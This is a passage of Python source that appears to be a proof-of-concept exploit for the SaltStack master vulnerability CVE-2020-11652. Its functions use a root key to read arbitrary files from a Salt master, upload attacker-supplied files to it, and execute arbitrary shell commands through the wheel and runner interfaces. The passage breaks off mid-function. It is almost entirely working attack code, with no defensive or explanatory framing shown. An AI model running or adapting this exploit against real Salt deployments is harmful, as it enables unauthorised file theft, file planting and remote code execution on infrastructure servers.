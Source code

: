 ```python
    if rets['data']['return'].startswith('Wrote'):
      try:
        os.remove('/tmp/salt_CVE_2020_11652.conf')
      except OSError:
        print("Maybe?")
      else:
        print("YES")
    else:
      print("NO")

def pwn_read_file(channel, root_key, path, master_ip):
    print("[+] Attemping to read {} from {}".format(path, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.read',
        'path': path,
        'saltenv': 'base',
    }

    rets = channel.send(msg, timeout=3)
    print(rets['data']['return'][0][path])

def pwn_upload_file(channel, root_key, src, dest, master_ip):
    print("[+] Attemping to upload {} to {} on {}".format(src, dest, master_ip))
    sys.stdout.flush()

    try:
        fh = open(src, 'rb')
        payload = fh.read()
        fh.close()
    except Exception as e:
        print('[-] Failed to read {}: {}'.format(src, e))
        return

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.write',
        'saltenv': 'base',
        'data': payload,
        'path': dest,
    }

    rets = channel.send(msg, timeout=3)
    print('[ ] {}'.format(rets['data']['return']))

def pwn_exec(channel, root_key, cmd, master_ip, jid):
    print("[+] Attemping to execute {} on {}".format(cmd, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'runner',
        'fun': 'salt.cmd',
        'saltenv': 'base',
        'user': 'sudo_user',
        'kwarg': {
            'fun': 'cmd.exec_code',
            'lang': 'python',
            'code': "import subprocess;subprocess.call('{}',shell=True)".format(cmd)
```